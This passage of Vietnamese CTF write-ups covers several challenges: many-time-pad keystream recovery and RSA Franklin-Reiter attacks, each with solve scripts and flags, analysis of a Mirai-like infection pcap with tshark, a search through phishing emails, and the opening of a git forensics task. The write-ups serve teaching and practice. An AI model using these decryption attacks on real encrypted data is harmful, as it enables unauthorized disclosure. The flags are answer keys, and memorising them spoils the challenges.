1. Vì ta biết tập hợp các plaintext có thể xảy ra ở từng dòng, ta sẽ thử XOR bản mã đầu tiên (`cts[0]`) với từng lựa chọn plaintext khả dĩ. Phép XOR này sẽ cho ta một chuỗi dự đoán gọi là Keystream candidate (`ks_cand`).
2. Kế tiếp, ta lấy Keystream dự đoán đó XOR thử với *tất cả các bản mã còn lại* ở cùng vị trí offset. Nếu kết quả trả về cũng là một plaintext hợp lệ (nằm trong catalog), thì xác suất rất cao Keystream dự đoán đó chính là Keystream thật sự.
3. Lặp lại quá trình này cho từng dòng (item, status, sector, memo) để nối dần và chắp vá lại được 100% độ dài Keystream.
4. Cuối cùng, dùng Keystream khôi phục được để XOR giải mã `secret_archive.hex` và lấy cờ.

### 4. PoC

Dưới đây là mã nguồn trích xuất từ file `solve2.py` mô phỏng cách bruteforce khôi phục keystream qua danh sách các archive:

```python
import json

def xor_bytes(a, b):
    return bytes(x ^ y for x, y in zip(a, b))

with open("catalog.json") as f:
    catalog = json.load(f)

with open("known_archives.json") as f:
    archives = json.load(f)

with open("secret_archive.hex") as f:
    secret_hex = f.read().strip()
    secret_ct = bytes.fromhex(secret_hex)

cts = [bytes.fromhex(arch["ciphertext_hex"]) for arch in archives]

## Dựng sẵn các dòng plaintext có thể xảy ra (đã đệm đủ khoảng trắng)
item_opts = [b"item=" + v.encode().ljust(18, b' ') + b"\n" for v in catalog['item']]
status_opts = [b"status=" + v.encode().ljust(12, b' ') + b"\n" for v in catalog['status']]
sector_opts = [b"sector=" + v.encode().ljust(12, b' ') + b"\n" for v in catalog['sector']]
memo_opts = [b"memo=" + v.encode().ljust(64, b' ') + b"\n" for v in catalog['memo']]

lines = [
    [b"[Aperture Archive]\n"],
    item_opts,
    status_opts,
    sector_opts,
    memo_opts
]

keystream = b""
offset = 0

for line_opts in lines:
    length = len(line_opts[0])
    valid_ks = None
    
    # Duyệt từng option của cts[0] để tìm Keystream
    for opt0 in line_opts:
        ks_cand = xor_bytes(cts[0][offset:offset+length], opt0)
        
        # Kiểm tra xem Keystream này có đúng với tất cả ciphertext khác không
        all_match = True
        for ct in cts[1:]:
            pt_cand = xor_bytes(ct[offset:offset+length], ks_cand)
            if pt_cand not in line_opts:
                all_match = False
                break
                
        if all_match:
            valid_ks = ks_cand
            break
            
    if valid_ks:
        keystream += valid_ks
        offset += length
    else:
        print("Failed at offset", offset)
        break

print("Keystream recovered:", len(keystream), "bytes")
print("Secret plaintext:")
secret_pt = xor_bytes(secret_ct, keystream)
print(secret_pt.decode('utf-8'))
```

**Output:**
```
Keystream recovered: 153 bytes
Secret plaintext:
[Aperture Archive]
item=cake voucher      
status=issued      
sector=omega-01    
memo=grodno{c0mp4n10n_cub3_7h15_15_57r1c7ly_4_m4ny_71m3_p4d}
```

### 5. Flag
```
grodno{c0mp4n10n_cub3_7h15_15_57r1c7ly_4_m4ny_71m3_p4d}
```

### 6. Bài học rút ra
- **Kỹ thuật mới học được:** Kỹ thuật khai thác lỗi Key Reuse trong Stream Cipher thông qua lỗ hổng kinh điển Many-Time Pad. Bài toán cũng minh họa rất tốt cách vận dụng cấu trúc tĩnh (Known Plaintext Attack / Crib Dragging) để tìm ra Keystream thông qua phép XOR ngược và đối chiếu hàng loạt.
- **Cách phòng chống:** Không bao giờ sử dụng lại cùng một Keystream, Seed hoặc IV cho hai thông điệp khác nhau khi sử dụng Stream Ciphers (như RC4, ChaCha20) hoặc Block Ciphers ở chế độ luồng (như CTR, OFB, CFB). Mỗi bản mã phải đi kèm với một giá trị Nonce/IV hoàn toàn độc nhất cho mỗi lượt mã hóa.

### 7. Tham khảo
- [Stream Cipher Attack (Many-Time Pad)](https://en.wikipedia.org/wiki/Stream_cipher_attacks)
- [Crib Dragging Technique](https://en.wikipedia.org/wiki/Crib_(cryptanalysis)) (Kỹ thuật Kéo nôi thường thấy để giải Many-Time Pad).

## Still Alive (Crypto)

### 1. Thông tin tổng quan

- **Category:** Cryptography
- **Difficulty:** Medium
- **Tags:** RSA, Related Message Attack, Franklin-Reiter Attack

### 2. Đề bài

> A restricted Aperture Science record associated with GLaDOS was recovered from an internal storage segment that survived the shutdown of the facility.
>
> The surviving materials are incomplete, but they are sufficient to reconstruct what was meant to remain hidden.
>
> Recover the original message.

Flag format:

```text
grodno{}
```

### 3. Quá trình phân tích

Challenge cung cấp hai file:

- `public.pem`
- `ciphertexts.json`

#### `public.pem`

File này chứa RSA public key được sử dụng trong quá trình mã hóa.

Sử dụng lệnh:

```bash
openssl rsa -pubin -in public.pem -text -noout
```

thu được:

```text
Public-Key: (2048 bit)
Exponent: 3
```

Việc sử dụng public exponent nhỏ (`e = 3`) thường xuất hiện trong các challenge RSA liên quan đến cấu trúc bản rõ.

#### `ciphertexts.json`

File này chứa hai ciphertext cùng các tham số bổ sung:

```json
{
    "c1": "...",
    "c2": "...",
    "a": 1337,
    "b": "..."
}
```

Quan sát thấy hai plaintext có quan hệ tuyến tính:

```text
m2 = 1337 * m1 + b
```

Do đó:

```text
c1 = m1^3 mod n
c2 = (1337 * m1 + b)^3 mod n
```

Việc mã hóa hai thông điệp có quan hệ tuyến tính bằng cùng một khóa RSA tạo điều kiện để thực hiện Franklin-Reiter Related Message Attack.

Ý tưởng của cuộc tấn công là xây dựng hai đa thức:

```text
f1(x) = x^3 - c1
f2(x) = (1337*x + b)^3 - c2
```

Hai đa thức này có chung nghiệm là thông điệp gốc `m1`.

Bằng cách tính GCD của hai đa thức, ta có thể khôi phục lại plaintext mà không cần biết private key của RSA.

### 4. PoC

```python
from Crypto.Util.number import long_to_bytes

R.<x> = Zmod(n)[]

f1 = x^e - c1
f2 = (1337*x + b)^e - c2

g = f1.gcd(f2)

m = int(-g[0])

print(long_to_bytes(m))
```

Output:

```text
b'571ll_4l1v3_bu7_g14d05_k3375_r3w5171ng_m35s4g35'
```

### 5. Flag

```text
grodno{571ll_4l1v3_bu7_g14d05_k3375_r3w5171ng_m35s4g35}
```

### 6. Tài liệu tham khảo

### 6. Tài liệu tham khảo

1. [Franklin-Reiter Related Message Attack](https://en.wikipedia.org/wiki/Coppersmith%27s_attack#Franklin-Reiter_related-message_attack)

2. [RSA Cryptosystem](https://en.wikipedia.org/wiki/RSA_(cryptosystem))

3. [Twenty Years of Attacks on the RSA Cryptosystem - Dan Boneh](https://crypto.stanford.edu/~dabo/pubs/papers/RSA-survey.pdf)


# Forensics

## CTF Write-up: After The Swarm

+++
title = 'After The Swarm — Write-up'
date = '2026-07-14T01:01:48+07:00'
draft = false
tags = ['GrodnoCTF', 'pcap', 'mirai']
categories = ['Forensics', 'Networking', 'IoT']
+++


**Category:** Forensics / Network
**Flag format:** `grodno{artifact_httpport_c2port_c2len_s2len1_s2len2_s2len3}`
**Flag cuối:** `grodno{armv6l_51370_50178_11_13_4_6}`

---

### Mô tả bài

> We obtained a large network capture of an infected IoT device.
> You need to reconstruct not a single artifact, but three linked stages of the infection chain:
> - The start of the first mass propagation wave on 8081/tcp.
> - The only HTTP object requested after that wave had already started.
> - The first successful 4554/tcp control-exchange that happened after that late HTTP request.
> 
> Then recover:
> - The name of the late HTTP object.
> - The source TCP port of that HTTP request.
> - The source TCP port of the control session.
> - The size of the first client payload in that control session.
> - The sizes of the first three server payloads in the same session.

**Tải về đề bài:** [challenge files — OneDrive](https://1drv.ms/u/c/2f661437c52d8a10/IQDL_EvDMIzyS7R5fQ6VKniXAZe-UImTDbuLLucAV5zQSoM?e=F5pYLw)

---

### Nhận file và kiểm tra nhanh

Tải file zip của challenge về, việc đầu tiên mình làm luôn là liệt kê nội dung bên trong file zip thay vì giải nén bừa bãi. Nhất là khi nghe đồn file pcap này cực kỳ nặng. Mình dùng `unzip -l` để kiểm tra:

```bash
$ unzip -l After_The_Swarm.zip
```

```
Archive:  After_The_Swarm.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
1381228544  2022-04-13 17:40   mirai_revenge.pcap
---------                     -------
1381228544                     1 file
```

Nhìn thông số `Length` mà giật cả mình: file pcap chưa giải nén bên trong nặng tới **1.38 GB**!
Nếu mình giải nén toàn bộ ra đĩa cứng rồi dùng `tshark` hay `tcpdump` đọc trực tiếp file `.pcap` đó, ổ đĩa sẽ phải gánh lượng I/O cực lớn và máy tính có thể bị treo (đơ) ngay lập tức do thiếu tài nguyên RAM/Disk cache. Còn nếu mở trực tiếp bằng Wireshark GUI thì coi như xác định phải restart máy.

> [!IMPORTANT]
> **Giải pháp tối ưu:** Mình quyết định **không giải nén** file pcap ra đĩa. Thay vào đó, mình sẽ dùng lệnh `unzip -p` để stream trực tiếp luồng dữ liệu pcap đã giải nén qua chuẩn stdout (standard output), rồi dùng pipe (`|`) chuyển tiếp thẳng vào `tcpdump` hoặc `tshark` với tùy chọn đọc từ stdin (`-r -`). 
> Cách này giúp tiết kiệm tối đa RAM và dung lượng ổ cứng, đồng thời tốc độ xử lý nhanh hơn rất nhiều do không phải ghi/đọc file từ ổ đĩa.

---

### Phần 1: Xác định thời điểm đợt càn quét mạng bắt đầu (Mass Propagation Wave trên port 8081)

#### Phát hiện vấn đề

Mục tiêu đầu tiên là tìm mốc thời gian bắt đầu của đợt càn quét mạng trên port 8081/tcp.
Theo hành vi đặc trưng của các botnet IoT (như Mirai), khi thiết bị bắt đầu càn quét, nó sẽ gửi liên tục các gói tin TCP SYN đến cổng 8081 của hàng loạt IP ngẫu nhiên. Số lượng gói tin trên port này sẽ tăng vọt đột ngột từ 0 lên hàng trăm gói mỗi giây.

Để tìm mốc thời gian này, mình stream dữ liệu pcap qua `tcpdump`, lọc các gói tin liên quan đến port 8081, sau đó gom nhóm và đếm số lượng gói tin theo từng giây:

```bash
$ unzip -p After_The_Swarm.zip | tcpdump -n -r - "tcp port 8081" 2>/dev/null | awk '{print $1}' | cut -d'.' -f1 | uniq -c | head -n 10
```

```
    320 02:50:48
    320 02:50:49
    320 02:50:50
    640 02:50:51
    640 02:50:52
    640 02:50:53
    640 02:50:54
    640 02:50:55
    640 02:50:56
    640 02:50:57
```

#### Phân tích

Từ kết quả trên, trước giây `02:50:48` hoàn toàn không có lưu lượng nào trên port 8081. Nhưng ngay tại giây `02:50:48`, số lượng gói tin đột ngột xuất hiện ở mức 320 gói/giây và tăng lên 640 gói/giây ở các giây sau. Đây chính xác là thời điểm đợt càn quét bắt đầu.

Để có mốc thời gian Epoch chính xác để so sánh cho các phần tiếp theo, mình chạy lệnh in ra timestamp dạng Epoch của các gói tin đầu tiên đi qua port 8081:

```bash
$ unzip -p After_The_Swarm.zip | tcpdump -tt -n -r - "tcp port 8081" 2>/dev/null | head -n 5
```

```
1551383448.186215 IP 192.168.1.193.24159 > 108.116.222.190.8081: Flags [S], seq 1819598526, win 35766, length 0
1551383448.186221 IP 192.168.1.193.24159 > 108.116.222.190.8081: Flags [S], seq 1819598526, win 35766, length 0
1551383448.186462 IP 192.168.1.193.24159 > 197.142.48.202.8081: Flags [S], seq 3314430154, win 35766, length 0
1551383448.186468 IP 192.168.1.193.24159 > 197.142.48.202.8081: Flags [S], seq 3314430154, win 35766, length 0
1551383448.186470 IP 192.168.1.193.24159 > 197.37.170.62.8081: Flags [S], seq 3307579966, win 35766, length 0
```

Mốc thời gian Epoch bắt đầu đợt quét là: `1551383448`.

---

### Phần 2: Tìm "The late HTTP object" (File tải về sau khi càn quét bắt đầu)

#### Phát hiện vấn đề

Đề bài yêu cầu tìm *"The only HTTP object requested after that wave had already started"*.
Tức là mình phải tìm request HTTP GET tải file độc hại được thực hiện **sau** mốc thời gian `1551383448`.

Mình sẽ stream pcap qua `tshark` để lọc ra tất cả các HTTP GET requests, lấy mốc thời gian Epoch, URI của file được tải, và source TCP port:

```bash
$ unzip -p After_The_Swarm.zip | tshark -r - -Y "http.request.method == GET" -T fields -e frame.time_epoch -e http.request.uri -e tcp.srcport 2>/dev/null
```

```
1551383431.241322000    /mips      51358
1551383433.235805000    /mipsel    51360
1551383436.194848000    /sh4       51362
1551383444.854627000    /x86       51364
1551383446.309299000    /armv7l    51366
1551383449.395774000    /armv6l    51370
1551383467.263144000    /i686      51374
1551383469.641900000    /powerpc   51376
1551383471.219501000    /i586      51378
1551383475.642961000    /m68k      51380
1551383480.213333000    /sparc     51382
1551383485.002585000    /armv4l    51384
1551383486.648890000    /armv5l    51386
1551383489.245902000    /440fp     51388
```

---

#### Sai lầm 1: Chọn HTTP GET request đầu tiên trong danh sách

Lúc đầu nhìn vào danh sách, mình bị hút mắt ngay bởi dòng đầu tiên `/mips` lúc `1551383431.241322000`. Tuy nhiên, mốc thời gian này là **trước** khi đợt càn quét bắt đầu (`1551383448`). Đề bài yêu cầu tìm đối tượng được tải **sau** khi đợt quét đã chạy rồi.

---

#### Khoảnh khắc nhận ra

> Đợt quét bắt đầu lúc `1551383448`. Request đầu tiên xảy ra ngay sau đó là tải `/armv6l` lúc `1551383449.395774000` với source port `51370`.
> 
> Nhưng tại sao đề bài lại gọi nó là *"the ONLY HTTP object requested after that wave had already started"* (đối tượng HTTP **duy nhất**)? Trong danh sách rõ ràng vẫn còn `/i686`, `/powerpc`... được tải sau đó nữa cơ mà?
> 
> Hóa ra, kịch bản lây nhiễm của mã độc IoT thường tải hàng loạt phiên bản cho các kiến trúc CPU khác nhau. Khi thiết bị chạy thành công file nhị phân tương thích với CPU của nó (ở đây là `armv6l`), malware sẽ ngay lập tức chiếm quyền kiểm soát thiết bị và thiết lập kết nối điều khiển C2. Mọi yêu cầu tải các file kiến trúc khác ở phía sau đều vô nghĩa hoặc bị ngắt quãng. Vì vậy, `/armv6l` là file payload thực sự hoạt động và là duy nhất dẫn đến giai đoạn lây nhiễm tiếp theo.

Kết quả:
- Tên HTTP object: `armv6l`
- Source TCP Port: `51370`

---

### Phần 3: Phân tích phiên điều khiển C2 (Port 4554) và Kích thước Payload

#### Phát hiện vấn đề

Mục tiêu tiếp theo là tìm phiên kết nối C2 thành công đầu tiên trên port 4554/tcp xảy ra sau thời điểm tải file `/armv6l` (`1551383449.395774`).
Một kết nối TCP thành công bắt buộc phải hoàn thành quá trình bắt tay 3 bước (3-way handshake). Cụ thể, mình cần lọc các gói tin chứa cờ `SYN-ACK` phản hồi từ server C2 gửi về cho client.

---

#### Sai lầm 1: Lấy ngay gói tin SYN đầu tiên gửi đến port 4554

Nếu mình vội vàng lọc tất cả các gói tin có cờ `SYN` gửi đến port 4554 sau mốc thời gian trên:

```bash
$ unzip -p After_The_Swarm.zip | tshark -r - -Y "tcp.dstport == 4554 && tcp.flags.syn == 1" -T fields -e frame.time_epoch -e tcp.srcport | head -n 5
```

```
1551383432.112048000    50170
1551383434.502948000    50172
1551383445.602984000    50174
```

Nếu chọn source port `50170` thì sẽ sai bét, vì đây chỉ là những nỗ lực kết nối đơn phương từ các tiến trình hoặc thiết bị khác nhưng không thành công (không có phản hồi từ server).

---

#### Phân tích

Để tìm kết nối được thiết lập thành công thực sự, mình lọc các gói tin chứa cả hai cờ `SYN` và `ACK` (SYN-ACK) trên port 4554:

```bash
$ unzip -p After_The_Swarm.zip | tshark -r - -Y "tcp.port == 4554 && tcp.flags.syn==1 && tcp.flags.ack==1" -T fields -e frame.time_epoch -e tcp.srcport -e tcp.dstport 2>/dev/null | head -n 5
```

```
1551383452.609428000    4554    50178
1551383452.609435000    4554    50178
1551383499.393345000    4554    50196
1551383499.393357000    4554    50196
```

Kết nối C2 thành công đầu tiên sau mốc tải file (`1551383449.395774`) chính là phiên với client port là **50178** vào lúc `1551383452.609428`.
- Source TCP Port của phiên C2: `50178`

#### Đo lường kích thước payload

Bây giờ, mình cần xác định kích thước gói dữ liệu (payload size) đầu tiên do client gửi lên và 3 gói dữ liệu tiếp theo do server trả về trong phiên kết nối của port `50178`.

Mình lọc các gói tin của port này, in ra source port, destination port, độ dài dữ liệu TCP (`tcp.len`), và chuỗi các cờ TCP (`tcp.flags.str`). Mình dùng `uniq` để loại bỏ các gói tin bị ghi nhận lặp do cơ chế bắt gói trên nhiều interface:

```bash
$ unzip -p After_The_Swarm.zip | tshark -r - -Y "tcp.port==50178" -T fields -e tcp.srcport -e tcp.dstport -e tcp.len -e tcp.flags.str 2>/dev/null | uniq | head -n 12
```

```
50178   4554    0       ··········S·
4554    50178   0       ·······A··S·
50178   4554    0       ·······A····
50178   4554    11      ·······AP···
4554    50178   0       ·······A····
4554    50178   13      ·······AP···
50178   4554    0       ·······A····
4554    50178   4       ·······AP···
50178   4554    0       ·······A····
4554    50178   6       ·······AP···
50178   4554    0       ·······A····
4554    50178   4       ·······AP···
```

Dựa vào các gói tin mang dữ liệu thực tế (chứa cờ `AP` - PUSH/ACK và `tcp.len > 0`), luồng trao đổi dữ liệu diễn ra như sau:
1. Gói dữ liệu đầu tiên từ Client gửi lên Server (50178 -> 4554): `tcp.len` = **11**
2. Gói dữ liệu thứ 1 từ Server gửi về Client (4554 -> 50178): `tcp.len` = **13**
3. Gói dữ liệu thứ 2 từ Server gửi về Client (4554 -> 50178): `tcp.len` = **4**
4. Gói dữ liệu thứ 3 từ Server gửi về Client (4554 -> 50178): `tcp.len` = **6**

Kết quả:
- Client payload size (`c2len`): `11`
- 3 Server payload sizes (`s2len1`, `s2len2`, `s2len3`): `13`, `4`, `6`

---

### Ghép Flag

| Thành phần | Giá trị | Nguồn |
|---|---|---|
| `artifact` | `armv6l` | HTTP GET request lúc `1551383449` |
| `httpport` | `51370` | TCP Source Port của HTTP GET `/armv6l` |
| `c2port` | `50178` | TCP Source Port của kết nối C2 thành công đầu tiên |
| `c2len` | `11` | Chiều dài gói dữ liệu client gửi lên đầu tiên |
| `s2len1` | `13` | Chiều dài gói dữ liệu server phản hồi thứ nhất |
| `s2len2` | `4` | Chiều dài gói dữ liệu server phản hồi thứ hai |
| `s2len3` | `6` | Chiều dài gói dữ liệu server phản hồi thứ ba |

```
grodno{armv6l_51370_50178_11_13_4_6}
```

---

### Bài học rút ra

**1. Kỹ thuật stream trực tiếp pcap từ file zip (`unzip -p`)**
Đối với các file capture cực kỳ lớn (trên 1GB), việc giải nén ra đĩa cứng sẽ gây tốn tài nguyên I/O và dễ làm đơ hệ thống. Sử dụng `unzip -p` để stream trực tiếp luồng bytes đã giải nén vào stdin của `tcpdump` hay `tshark` qua dấu `-` là phương án tối ưu, không tốn thêm dung lượng đĩa và hạn chế tối đa việc treo máy.

**2. Tầm quan trọng của phân tích timeline**
Tái dựng đúng chuỗi sự kiện theo thứ tự thời gian Epoch giúp liên kết các giai đoạn lây nhiễm của mã độc: Quét cổng 8081 -> HTTP tải file binary -> Kết nối C2 trên port 4554.

**3. Phân biệt nỗ lực kết nối và kết nối thành công**
Lọc gói tin C2 bằng cờ SYN-ACK (`tcp.flags.syn==1 && tcp.flags.ack==1`) giúp ta lọc bỏ các gói SYN quét mạng đơn phương không thành công, xác định chính xác phiên điều khiển C2 thực tế.

**4. Xác định payload bằng cờ PUSH/ACK**
Khi tính kích thước gói tin điều khiển, bỏ qua các gói bắt tay/ACK thông thường (`len=0`). Tập trung vào các gói mang cờ PUSH (`AP` trong tshark) để xác định đúng kích thước dữ liệu truyền tải thực tế.

**5. Lọc nhiễu trùng lặp gói tin**
Khi capture trên nhiều card mạng ảo/vật lý cùng lúc, file pcap sẽ ghi nhận các gói tin bị trùng lặp. Cần dùng `uniq` để lọc bớt dữ liệu thừa trước khi đếm kích thước payload để tránh kết quả bị sai lệch.

## CTF Write-up: Invoice Without a Bank

+++
title = 'Invoice Without a Bank — Write-up'
date = '2026-07-14T01:14:58+07:00'
draft = false
tags = ['email', 'GrodnoCTF', 'eml', 'phishing']
categories = ['Forensics']
+++


**Category:** Email Forensics
**Flag format:** `grodno{filename_subjectid}`
**Flag cuối:** `grodno{Vl6s3kCIKaUvwaUAeY.pdf_6ZFYeMmltso}`

---

### Mô tả bài

> Find the message where a PDF attachment is distributed under the guise of a banking notification. Recover:
> 1. The exact PDF attachment filename
> 2. The identifier from the subject after `Fatura Emitida -`
>
> Password to archive: `Infected`

**Tải về đề bài:** [challenge files — OneDrive](https://1drv.ms/u/c/2f661437c52d8a10/IQDfISqXTs41SIn0YpXKeHPaAXhb_iJLsgnNQQKfRL0ovyw?e=3gNPz6)

---

### Nhận file và kiểm tra nhanh

File zip được bảo vệ bằng mật khẩu `Infected`. Giải nén xong thì thấy một thư mục `public/emails/` với 10 file `.eml` bên trong:

```bash
$ unzip -P Infected "Invoice Without a Bank.protected.zip"
$ ls -la public/emails/
```

```
total 1464
drwxr-xr-x 2 user user   4096 Jul 12 06:30 .
drwxr-xr-x 3 user user   4096 Jul 12 06:30 ..
-rw-r--r-- 1 user user 144082 Jul 12 06:30 sample-1000.eml
-rw-r--r-- 1 user user 148961 Jul 12 06:30 sample-1008.eml
-rw-r--r-- 1 user user 122334 Jul 12 06:30 sample-1014.eml
-rw-r--r-- 1 user user 160919 Jul 12 06:30 sample-1324.eml
-rw-r--r-- 1 user user 124925 Jul 12 06:30 sample-189.eml
-rw-r--r-- 1 user user 237363 Jul 12 06:30 sample-405.eml
-rw-r--r-- 1 user user 127160 Jul 12 06:30 sample-591.eml
-rw-r--r-- 1 user user  33134 Jul 12 06:30 sample-62.eml
-rw-r--r-- 1 user user 112324 Jul 12 06:30 sample-717.eml
-rw-r--r-- 1 user user 161713 Jul 12 06:30 sample-922.eml
```

Tên file toàn kiểu `sample-xxx.eml` — không có gợi ý gì về nội dung. Dung lượng dao động từ 33KB đến 237KB. File `.eml` là định dạng email thô theo chuẩn RFC 5322: phần đầu là các header dạng `Key: Value` (From, To, Subject, Date...), phần sau là nội dung email và file đính kèm — tất cả đều là text thuần, đọc được bằng bất kỳ công cụ nào. Mình không đời nào mở từng file bằng tay, dùng CLI thôi.

---

### Phần 1: Tìm đúng email trong 10 file

Mình cần tìm email giả mạo thông báo ngân hàng gửi kèm file PDF. Bài yêu cầu lấy hai thứ: tên file PDF đính kèm và phần ID trong tiêu đề sau chuỗi `Fatura Emitida -`.

Nghĩ đơn giản trước: bài nói đến PDF, vậy cứ xem có bao nhiêu email đính kèm file PDF là đủ để khoanh vùng.

```bash
$ grep -ri "\.pdf" public/emails/
```

```
public/emails/sample-717.eml:	name="Vl6s3kCIKaUvwaUAeY.pdf"
public/emails/sample-717.eml:	filename="Vl6s3kCIKaUvwaUAeY.pdf"
public/emails/sample-1014.eml:Content-Type: application/pdf; name="StatementAmazon#CASE-3987187467.pdf"
public/emails/sample-1014.eml:	filename="StatementAmazon#CASE-3987187467.pdf"
public/emails/sample-1324.eml:Content-Type: application/octet-stream; name=ZGWWYaVnFL.pdf
public/emails/sample-62.eml:Content-Type: application/pdf; name="YSXUqT4G.pdf"
public/emails/sample-62.eml:Content-Disposition: attachment; filename="YSXUqT4G.pdf"
public/emails/sample-922.eml:Content-Type: application/pdf; name="IRS.GovTAXReturn#Docx-REFF8492785.pdf"
public/emails/sample-922.eml:	filename="IRS.GovTAXReturn#Docx-REFF8492785.pdf"
public/emails/sample-189.eml:	name="Bitcoin.Transfer.0.7495.BTCqrfnz8sNGbYuasI7iVes2P.pdf"
public/emails/sample-189.eml:	filename="Bitcoin.Transfer.0.7495.BTCqrfnz8sNGbYuasI7iVes2P.pdf"
public/emails/sample-1000.eml:	name="csWuYjyqO2IR.pdf"
public/emails/sample-1000.eml:	filename="csWuYjyqO2IR.pdf"
public/emails/sample-405.eml:Content-Type: application/pdf; name="Request for Quotation.pdf"
public/emails/sample-405.eml:Content-Disposition: attachment; filename="Request for Quotation.pdf"
public/emails/sample-1008.eml:	name="Fa0ldxfjHYJ.pdf"
public/emails/sample-1008.eml:	filename="Fa0ldxfjHYJ.pdf"
```

9 trên 10 email đều đính kèm PDF — chỉ mỗi `sample-591.eml` là không có. Đây là dataset phishing mẫu, chuyện đính kèm PDF để giả làm hóa đơn, báo cáo ngân hàng, thông báo Amazon... là chiêu phổ biến đến mức lọc theo định dạng file không giúp ích được gì.

> Mình dừng lại và đọc kỹ lại đề. Đề yêu cầu tìm email có tiêu đề chứa chuỗi `Fatura Emitida -` — đây là tiếng Bồ Đào Nha, nghĩa là "Hóa đơn đã phát hành". Đề bài đã trao thẳng vào tay mình một chuỗi định danh cực kỳ đặc trưng trong dòng Subject. Đáng ra mình phải nhìn ra cái này từ đầu, lọc theo đó luôn — thay vì đi lọc theo định dạng file đính kèm rồi bị chết trong nhiễu.

Chuyển sang lọc theo tiêu đề. Trường Subject trong email thường được viết theo dạng `Subject: <nội dung>` — mình thêm prefix đó vào từ khóa tìm kiếm để tránh lọc trúng nội dung body email:

```bash
$ grep -rn "Subject: Fatura Emitida -" public/emails/
```

```
public/emails/sample-717.eml:65:Subject: Fatura Emitida - 6ZFYeMmltso
```

Chỉ có một kết quả duy nhất. File cần tìm là `sample-717.eml`, nằm ở dòng 65 của file. Dòng Subject đã hiện luôn phần ID cần lấy: `6ZFYeMmltso`.

---

### Phần 2: Lấy tên file đính kèm PDF

Đã xác định được email mục tiêu, bước tiếp theo là lấy tên file PDF đính kèm. Mình biết file nào cần xem rồi, nhưng không thể `cat` thẳng ra terminal được. File `.eml` có đính kèm sẽ nhúng toàn bộ nội dung nhị phân của PDF vào file text dưới dạng chuỗi Base64 — tức là hàng chục nghìn dòng ký tự `A-Za-z0-9+/=` chạy liên tục. Thử thì biết ngay terminal sẽ giật, scroll không kịp, và mình cũng không rút ra được gì từ đống đó.

Cách làm đúng là nhìn vào cấu trúc MIME của email. Khi một email có file đính kèm, phần header của phần đính kèm đó sẽ có hai trường quan trọng:
- `Content-Type: application/pdf; name="tên-file.pdf"` — khai báo loại dữ liệu
- `Content-Disposition: attachment; filename="tên-file.pdf"` — chỉ định cách mail client xử lý (hiển thị inline hay lưu thành file)

Tên file thực tế nằm trong thuộc tính `filename=`. Mình `grep` thẳng vào đó:

```bash
$ grep -i "filename=" public/emails/sample-717.eml
```

```
        filename="Vl6s3kCIKaUvwaUAeY.pdf"
```

Một dòng duy nhất, tên file là `Vl6s3kCIKaUvwaUAeY.pdf`. Tên file được tạo ngẫu nhiên — kiểu đặt tên này thường gặp trong các công cụ phishing tự động để tránh bị nhận diện theo tên cố định.

---

### Ghép Flag

| Thành phần | Giá trị | Nguồn |
|---|---|---|
| `filename` | `Vl6s3kCIKaUvwaUAeY.pdf` | Trường `filename=` trong MIME header của `sample-717.eml` |
| `subjectid` | `6ZFYeMmltso` | Phần sau `Fatura Emitida -` trong dòng Subject của `sample-717.eml` |

```
grodno{Vl6s3kCIKaUvwaUAeY.pdf_6ZFYeMmltso}
```

---

### Bài học rút ra

**1. Trong bộ dữ liệu phishing, lọc theo định dạng file đính kèm là vô dụng**
Tất cả các email phishing đều dùng PDF, Word, ZIP làm file đính kèm vì đó là thứ người nhận hay mở. Khi dataset là tập hợp các mẫu phishing, thì PDF xuất hiện ở khắp nơi. Cái có giá trị để lọc là các chuỗi đặc trưng trong tiêu đề hoặc nội dung: tên thương hiệu, ngôn ngữ cụ thể, định dạng subject riêng biệt. Đề bài thường đã nhúng sẵn IoC này — đọc kỹ trước khi bắt tay vào lọc.

**2. Hiểu cấu trúc MIME của file `.eml` để grep đúng trường**
File `.eml` có đính kèm sẽ nhúng toàn bộ dữ liệu nhị phân vào dạng Base64 bên trong file text — không bao giờ `cat` ra terminal. Thứ mình cần luôn nằm trong các header nhỏ phía trên phần Base64: `Content-Disposition: attachment; filename="..."` là trường đáng tin cậy nhất để lấy tên file đính kèm, vì đây là phần mail client dùng để quyết định lưu file với tên gì.

**3. Thêm prefix header khi grep để tránh lọc trúng nội dung body**
Nếu chỉ grep `Fatura Emitida -` mà không kèm `Subject:` phía trước, lệnh có thể khớp cả với nội dung HTML hay plain-text bên trong email. Với email phishing, nội dung body thường lặp lại từ khóa của tiêu đề để tạo urgency — nên grep `Subject: Fatura Emitida -` để chắc chắn chỉ lọc header.

## [Grodno CTF] Philologist - Writeup (Forensics)

+++
title = 'Philologist — Write-up'
date = '2026-07-13T23:46:54+07:00'
draft = false
tags = ['GrodnoCTF', 'git', 'git-log']
categories = ['Forensics']
+++


**Author:** @meier | **Difficulty:** Medium | **Category:** Forensics / Misc

---

**Tải về đề bài:** [challenge files — OneDrive](https://1drv.ms/u/c/2f661437c52d8a10/IQDR5y97Ew4SRbDPYfWwigO6AaQGhfewXRoSeNQ2Ku2C4nM?e=32JFm0)

### 1. Phân tích ngữ nghĩa học và Thu thập thông tin ban đầu

Thử thách bắt đầu bằng một cái tên khá trừu tượng: **"Philologist"** (Nhà ngôn ngữ học) và một bài thơ viết bằng tiếng Nga.

> **Г**ероев детства мы не судим,
> **И** ведь не правы вовсе тут:
> **Т**огдашних дней грехи забудем,
> **Л**аскаясь тем, что те не врут.
> **О**днажды павши в ноги к смуте, —
> **Г**раницы догмы нас сожрут.

Với kinh nghiệm làm các bài Forensics, mình lập tức tải file đính kèm `filolog.zip` về và giải nén. Bên trong xuất hiện một thư mục mã nguồn chứa thư mục ẩn `.git` và một file ảnh `file1.png`. 

Lúc này, sự chú ý của mình va ngay vào file ảnh. Trong tư duy của một người chơi CTF hệ Forensics, một bức ảnh xuất hiện đơn độc rất dễ chứa dữ liệu ẩn (Steganography). Mình lập tức sử dụng hàng loạt công cụ như `exiftool` để kiểm tra metadata, `strings` để quét các chuỗi văn bản bị nhúng, và cả `zsteg` để dò tìm các bit LSB bị thay đổi. Kết quả hoàn toàn vô vọng. Bức ảnh hoàn toàn sạch sẽ và không chứa bất kỳ thông tin nào có ích. Đây là ngõ cụt đầu tiên.

